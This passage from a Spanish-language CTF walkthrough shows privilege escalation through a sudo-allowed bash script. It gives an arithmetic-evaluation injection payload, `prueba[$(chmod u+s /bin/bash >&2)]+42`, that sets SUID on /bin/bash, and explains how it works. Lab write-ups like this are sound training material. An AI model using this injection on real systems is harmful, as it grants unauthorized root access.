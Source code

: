 Y con esto ya seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ruben on 454dd5633d8b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ruben may run the following commands on 454dd5633d8b:
    (ALL) NOPASSWD: /bin/bash /opt/penguin.sh
```

Veremos que podremos ejecutar el binario `bash` junto al `script` llamado `penguin.sh` como el usuario `root`, por lo que haremos lo siguiente:

Si leemos el script, veremos lo siguiente:

```bash
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```

Por lo que vemos si ponemos el numero `42` nos da la frase correcta, por lo que podremos aprovechar esto para hacer lo siguiente:

```shell
sudo bash /opt/penguin.sh
```

Metemos este codigo:

```shell
prueba[$(chmod u+s /bin/bash >&2)]+42
```

> Explicacion:

* `prueba[ ... ]+42` → Se ve como un intento de asignación de un array en Bash. Pero lo importante es lo que está dentro del `[ ... ]`.
* `$(chmod u+s /bin/bash >&2)` →
  * La expresión `$()` ejecuta el comando dentro de ella en un **subproceso**.
  * `chmod u+s /bin/bash` da permisos **SUID** a `/bin/bash`, lo que significa que cualquier usuario que ejecute `/bin/bash` tendrá privilegios de **root**.
  * `>&2` redirige la salida estándar a `stderr`, aunque en este caso no es esencial.
* `prueba[ ... ]+42` →
  * **Bash ejecuta primero el contenido de `$()`** antes de asignarlo a una variable.
  * Al ejecutar `chmod u+s /bin/bash`, la bash del sistema ahora tiene permisos de root.
  * Luego, `read` asigna lo que queda (`prueba[ ]+42`), pero el daño ya está hecho.
